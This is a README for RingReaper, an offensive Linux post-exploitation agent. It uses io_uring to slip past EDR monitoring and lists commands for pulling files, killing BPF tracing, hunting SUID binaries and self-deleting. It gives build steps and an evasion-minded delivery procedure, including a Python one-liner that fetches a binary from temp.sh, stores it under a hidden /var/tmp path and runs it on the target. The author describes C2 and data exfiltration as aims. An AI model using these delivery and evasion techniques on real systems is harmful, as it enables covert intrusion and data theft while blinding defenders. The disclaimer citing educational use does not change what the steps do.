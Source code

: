 # RingReaper

**RingReaper** is a simple post-exploitation agent for Linux designed for those who need to operate stealthily, minimizing the chances of being detected by EDR solutions. The idea behind this project was to leverage **io_uring**, the new asynchronous I/O interface in the Linux kernel, specifically to avoid traditional system calls that most EDRs tend to monitor or even hook.

In practice, RingReaper replaces calls such as `read`, `write`, `recv`, `send`, `connect`, among others, with asynchronous I/O operations (`io_uring_prep_*`), reducing exposure to hooks and event tracing typically collected in a standardized way by security products.

> **NOTE:** Some functions within RingReaper still rely on traditional calls, such as directory reading (`opendir`, `readdir`) or symbolic link resolution (`readlink`), because io_uring **does not yet fully support** these types of operations natively. Even so, during my tests, these calls did not trigger alerts on the tested EDRs, precisely because they fall outside the monitored network I/O paths.

In summary, RingReaper was built to **avoid traditional calls as much as possible**, and even in cases where it had to use them, it demonstrated excellent evasion capabilities, with no alerts or detections from common security agents.

See the full and detailed article at:

https://matheuzsecurity.github.io/hacking/evading-linux-edrs-with-io-uring/

Author: https://www.linkedin.com/in/mathsalves/

Rootkit Researchers

- https://discord.gg/66N5ZQppU7

## Command Reference

| Command       | Description                                              | Backend              |
|---------------|----------------------------------------------------------|----------------------|
| `get`         | Look files from the target                           | 100% io_uring        |
| `put`         | Upload files (uses `recv` on the agent side)             | 100% io_uring        |
| `killbpf`     | Disable tracing, remove `/sys/fs/bpf` files and kill processes using `bpf-map` | traditional calls + io_uring |
| `users`       | List logged-in users by reading `utmp`                   | 100% io_uring        |
| `ss` / `netstat` | List TCP connections from `/proc/net/tcp`            | 100% io_uring        |
| `privesc`     | Search for SUID binaries using `statx`                   | 100% io_uring        |
| `ps`          | List processes (uses `opendir`, `readdir`)               | traditional calls + io_uring   |
| `kick`        | Kill `pts` sessions (uses `opendir`, `readdir`, `kill`, `readlink`) | traditional calls + io_uring |
| `me`          | Show PID/TTY (`getpid`, `ttyname`)                       | traditional calls + io_uring   |
| `selfdestruct`| Delete the current binary (uses `readlink`)              | traditional calls + io_uring   |
| `exit`        | Terminate connection and exit                            | 100% io_uring        |
| `help`        | Display help                                             | 100% io_uring        |

In RingReaper, all data traffic, including control commands, uploads, and downloads, must pass through io_uring. This also ensures that the most sensitive operations remain off the radar of hooks and EDR monitoring based on traditional calls.

## About Evasion

RingReaper was designed from the ground up to bypass EDR monitoring. Many security solutions base their detection triggers on intercepting classic syscalls (`read`, `recv`, `send`, `connect`) at the kernel level. Since `io_uring` is relatively new and less integrated into the telemetry pipeline of these products, it often goes unnoticed by most agents, allowing for C2 sessions and data exfiltration without triggering alerts.

Even functions that still rely on older syscalls (such as directory reading) remained discreet enough not to raise alarms.

## Requirements

- Linux kernel 5.1 or higher  
- `liburing` library  
- A compatible C compiler (tested with GCC)  

## Env

Tested **ONLY** on the following kernel versions below;

- 6.8.0-60-generic
- 6.12.25-amd64

## Compilation

```
sudo apt install liburing-dev -y
gcc agent.c -o agent -luring -O2 -s -static
```

## Execution

In testing, I noticed that EDR detected the compilation of `agent.c` by monitoring GCC usage in real time (it's better not to use wget/curl). To bypass this, I compiled the agent statically on my machine, sent the finished binary via `temp.sh` and used Python on the target to download and execute it. This technique worked without warning.

Server (Attack box) : 

- `curl -F "file=@agent" https://temp.sh/upload`
- `python3 server.py --ip IP --port 443` 

Agent (Target machine) :

- `python3 -c "import urllib.request,os,subprocess; u=urllib.request.Request('http://temp.sh/xxxx/stealth_agent',method='POST'); d='/var/tmp/.X11'; open(d,'wb').write(urllib.request.urlopen(u).read()); os.chmod(d,0o755); subprocess.Popen([d]);"`

## Upgrades

**Version 2.0**:
* Support for multiple threaded connections.
* Command history (using the "up" and "down" keys).
* "Clear" command to avoid cluttering the screen.

## Contribution

Feel free to make pull requests and contribute to the project.
Any errors with RingReaper, please create an issue and report it to us.

## Disclaimer

This code was developed solely for educational purposes, research, and controlled demonstrations of evasion techniques. Any use outside authorized environments, or for malicious purposes, is strictly prohibited and entirely the responsibility of the user. Unauthorized or illegal use may violate local, national, or international laws.
